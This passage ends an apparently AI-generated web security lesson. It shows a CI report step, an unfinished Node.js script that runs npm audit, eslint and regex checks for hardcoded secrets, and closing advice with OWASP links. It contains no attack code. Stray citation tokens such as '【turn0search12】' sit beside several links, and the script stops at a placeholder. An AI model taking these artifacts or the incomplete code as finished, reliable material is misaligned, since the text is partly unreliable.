        # Add license compliance logic here
    
    - name: Security Report
      run: |
        echo "# Security Scan Report" >> $GITHUB_STEP_SUMMARY
        echo "## SAST Results" >> $GITHUB_STEP_SUMMARY
        cat sonar-report.md >> $GITHUB_STEP_SUMMARY
        echo "## DAST Results" >> $GITHUB_STEP_SUMMARY
        cat zap-report.md >> $GITHUB_STEP_SUMMARY
        echo "## Dependency Vulnerabilities" >> $GITHUB_STEP_SUMMARY
        cat dependency-check-report.html >> $GITHUB_STEP_SUMMARY
```

```javascript
// scripts/security-check.js
const { spawn } = require('child_process');
const fs = require('fs').promises;
const path = require('path');

async function runSecurityChecks() {
  console.log('Starting security checks...\n');
  
  // 1. Dependency audit
  console.log('1. Checking dependencies...');
  const npmAudit = spawn('npm', ['audit', '--json'], { stdio: ['pipe', 'pipe', 'inherit'] });
  
  let auditOutput = '';
  npmAudit.stdout.on('data', (data) => {
    auditOutput += data.toString();
  });
  
  await new Promise((resolve) => {
    npmAudit.on('close', resolve);
  });
  
  const auditResult = JSON.parse(auditOutput);
  const vulnerabilities = {
    critical: auditResult.metadata.vulnerabilities.critical || 0,
    high: auditResult.metadata.vulnerabilities.high || 0,
    moderate: auditResult.metadata.vulnerabilities.moderate || 0,
    low: auditResult.metadata.vulnerabilities.low || 0
  };
  
  console.log(`   Critical: ${vulnerabilities.critical}`);
  console.log(`   High: ${vulnerabilities.high}`);
  console.log(`   Moderate: ${vulnerabilities.moderate}`);
  console.log(`   Low: ${vulnerabilities.low}\n`);
  
  // 2. Static analysis
  console.log('2. Running static analysis...');
  const eslint = spawn('npx', ['eslint', '.', '--format', 'json'], { stdio: ['pipe', 'pipe', 'inherit'] });
  
  let eslintOutput = '';
  eslint.stdout.on('data', (data) => {
    eslintOutput += data.toString();
  });
  
  await new Promise((resolve) => {
    eslint.on('close', resolve);
  });
  
  const eslintResults = JSON.parse(eslintOutput);
  const errorCount = eslintResults.reduce((sum, result) => sum + result.errorCount, 0);
  const warningCount = eslintResults.reduce((sum, result) => sum + result.warningCount, 0);
  
  console.log(`   Errors: ${errorCount}`);
  console.log(`   Warnings: ${warningCount}\n`);
  
  // 3. Security-specific checks
  console.log('3. Running security-specific checks...');
  
  // Check for hardcoded secrets
  const secretPatterns = [
    /password\s*=\s*["'].*["']/,
    /api[_-]?key\s*=\s*["'].*["']/,
    /secret\s*=\s*["'].*["']/,
    /token\s*=\s*["'].*["']/
  ];
  
  // ... implementation continues
}

runSecurityChecks().catch(console.error);
```
</details>

## 🎯 11. Conclusion and Best Practices

### 11.1 Key Takeaways

1. **Prevention is Better Than Cure**: Implement security from the start (Shift Left) rather than trying to patch vulnerabilities later.

2. **Defense in Depth**: No single security measure is sufficient. Use multiple layers of security controls.

3. **Context Matters**: Different contexts (HTML, JavaScript, URL, CSS) require different encoding/escaping strategies.

4. **Automation is Key**: Use automated tools for continuous security testing, but don't rely solely on them.

5. **Stay Informed**: Keep up with the latest security threats and vulnerabilities (OWASP Top 10, CVEs).

6. **Regular Training**: Conduct regular security awareness training for all team members, not just developers.

### 11.2 Security Implementation Roadmap



### 11.3 Final Recommendations

> ⚠️ **Critical Reminder**: Security is not a one-time implementation but a continuous process. Threats evolve, and so should your defenses. Regularly review and update your security measures, conduct periodic security assessments, and stay informed about emerging threats.

> 💡 **Pro Tip**: Implement a **security champions program** where developers are trained to be security advocates within their teams. This helps spread security knowledge throughout the organization and makes security everyone's responsibility.

> 📚 **Further Learning**: 
> - [OWASP Top 10](https://owasp.org/Top10/) 【turn0search12】
> - [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) 【turn0search11】
> - [OWASP SQL Injection Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)
> - [PortSwigger Web Security Academy](https://portswigger.net/web-security) 【turn0search18】

By understanding and implementing the concepts covered in this lesson, you'll be well-equipped to build and maintain secure web applications that resist SQL injection and XSS attacks, protecting both your organization and your users from potential harm.